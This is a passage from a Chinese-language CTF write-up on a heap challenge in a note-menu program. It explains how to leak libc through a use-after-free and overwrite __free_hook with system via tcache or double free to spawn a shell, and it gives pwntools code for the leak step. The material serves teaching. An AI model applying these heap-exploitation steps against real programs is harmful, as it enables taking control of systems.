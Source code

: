 ```cpp
		case 4:
			delete_note();
			break;
		default:
			puts("Invalid command");
		}
	}
	return 0;
}
```
:::
## Recon
:::warning
Run On Ubuntu 20.04
:::
這一題有很多種方式可以拿到shell，不過原理都是一樣的，前置作業都是一樣的，也就是要利用UAF去leak出libc address，接著算出`__free_hook`以及`system`的位址，接著想辦法把`system`寫到`__free_hook`的位址，此時就有兩種方式可以寫，一種是利用此次學到的double free，把值寫到最後一個在tcache的free chunk，蓋掉他的fd，接著就可以用add_note把tcache的值要回來，並寫system的address進到__free_hook；另一種方式就比較簡單，也就是把free chunk的fd利用UAF的特性改掉，並且直接add_note把東西從tcache要回來，之後就一樣寫system_addr，後free掉一個帶有/bin/sh的chunk，此時就會開一個shell給我們了
### 前置作業: Leak Libc Address
關於這一點可以參考[如何用UAF leak libc address?](https://hackmd.io/@SBK6401/SJWc9v4Bp#%E5%A6%82%E4%BD%95%E7%94%A8UAF-leak-libc-address)，方法都一樣，首先要想辦法讓free chunk進到unsorted bin中(最簡單的方法就是設定超過0x410的空間)，接著因為malloc的時候沒有實作清空原本的資料，導致我們可以leak其中有關libc section的資訊。底下的設定意思是我們先設定三個notes，#14的意思是不要讓#13被free掉的時候被consolidate用的，接著我們把前兩個free掉，結果如下
![image](https://hackmd.io/_uploads/r14opZfL6.png)
會發現#12和#13被consolidate在一起了，接著我們看其中的一些資訊
![image](https://hackmd.io/_uploads/SJwX0-GIT.png)
裡面確實存著libc相關的資訊，接著只要把這一塊chunk malloc出去給隨便一個note，接著讀其中的資料就可以讀出libc address了
```python
add_note(12, 0x420)
add_note(13, 0x420)
add_note(14, 0x420)
del_note(12)
del_note(13)
add_note(12, 0x420)
read_note(12)

leak_libc = u64(r.recv(8))
libc_base = leak_libc - 0x1ed0e0
system_addr = libc_base + libc.symbols['system']
free_hook = libc_base + 0x1eee48
log.success(f'Leak Libc = {hex(leak_libc)}')
log.success(f'Libc Base = {hex(libc_base)}')
log.success(f'System Address = {hex(system_addr)}')
log.success(f'Free Hook = {hex(free_hook)}')
r.recv(0x420 - 0x8)
```
### 方法一: Double Fee
有了libc address後，我們要想辦法把system address寫到`__free_hook`的位置，如果是要用double free的方法的話可以參考上課的講義:
![image](https://hackmd.io/_uploads/SJNM1Mf8T.png)
